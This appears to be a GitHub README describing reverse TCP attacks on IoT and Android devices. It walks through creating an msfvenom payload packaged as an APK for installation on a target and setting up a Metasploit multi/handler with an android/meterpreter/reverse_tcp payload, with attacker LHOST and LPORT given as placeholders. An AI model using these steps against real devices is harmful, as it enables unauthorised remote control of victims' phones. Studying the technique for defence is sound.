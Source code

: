 # Reverse-TCP-Vulnerability

IoT devices are vulnerable to reverse TCP attacks.

The reverse TCP attack is a type of attack where the victim machine initiates the connection to the attacker machine. 
The attacker machine has a listener port on which it receives the connection, which it can use to execute the commands.

![Reversetcp](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/37464f86-906d-42cc-91b5-67784b5512cc)


The attacker creates a payload written using a bash shell script. This shell script carries the process payload in different forms. 
For example, in the case of Android devices, the shell script payload can be carried in the form of an Android apk.

msfvenom can be used to create payloads.

![msfvenom](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/78456489-0775-4a95-91db-e4d886252dbf)

once the payload is created, Attacker move this payload into target device. In thase case of android based devices, attaker create paload 
in the form of Android apk and install this apk in the target device.

Open the Metasploit console in the kali Linux terminal by typing "msfconsole."
After the Metasploit console opens, then type the command "use multi/handler"
Next set the payload by typing "set payload android/meterpreter/reverse_tcp"

Metasploit console in the kali linux used as a connection entry point between the attacker and the victim.

![image](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/966f41e8-3c55-4867-9ec4-d4228b9a255f)

Set LHOST <attackipaddress> this is the IP address used as a host.

![image](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/6a4a41b8-10c9-4395-9c07-96a8702dfa84)

Set LPORT <PORT attacker> this is the PORT used as a connection entry point between the attacker and the victim.

![image](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/a3702304-7407-4a7f-a1fd-1d2cc66c4554)

Exploit is a command to start an exploit between the attacker and the victim's device that has been previously
connected.

![image](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/7b0409cb-699e-4668-bfe1-80b0cd08968d)

![image](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/f6f46734-08a0-45bb-83e6-7263c70c78ed)

![image](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/f4dd9373-e027-4ba1-8dee-168951dd937e)

![image](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/59bc4f13-7c32-4867-b56b-ee5a7e69f7d4)







